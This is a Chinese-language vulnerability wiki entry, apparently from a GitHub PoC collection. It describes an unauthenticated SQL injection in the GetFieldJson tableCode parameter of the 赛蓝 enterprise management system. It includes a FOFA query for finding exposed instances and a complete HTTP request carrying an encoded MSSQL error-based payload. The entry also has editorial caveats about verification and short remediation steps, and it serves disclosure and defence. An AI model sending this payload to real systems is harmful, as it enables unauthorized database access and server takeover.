

# 赛蓝企业管理系统 ExcelImport GetFieldJson tableCode报错SQL 注入

## 条目说明

- 对象与具体问题：赛蓝企业管理系统；ExcelImport GetFieldJson tableCode报错SQLi
- 版本、配置及部署条件：版本未知，MSSQL类型转换报错
- 认证与权限前提：匿名声称
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 载荷意图把@@VERSION字符串转换整数报错，仅截图未视检，无可读错误返回
- 写木马/服务器权限是条件性延伸，不由此请求直接证明
- 目录混入接口名，应统一赛蓝产品；无版本/补丁/在野出处，HTTP缺围栏

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

赛蓝企业管理系统 GetFieldJson 接口处SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

影响版本

赛蓝企业管理系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 高 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="www.cailsoft.com" || body="赛蓝企业管理系统"

POC/EXP：

```http
GET /BaseModule/ExcelImport/GetFieldJson?tableCode=%27%20AND%206935%20IN%20(SELECT%20(CHAR(113)%2BCHAR(122)%2BCHAR(112)%2BCHAR(106)%2BCHAR(113)%2B(SELECT%20(CASE%20WHEN%20(6935%3D6935)%20THEN%20@@VERSION%20ELSE%20CHAR(48)%20END))%2BCHAR(113)%2BCHAR(122)%2BCHAR(113)%2BCHAR(118)%2BCHAR(113)))%20AND%20%27qaq%27=%27qaq HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```





## 修复方案

1. 关闭互联网暴露面或接口设置访问权限

   升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
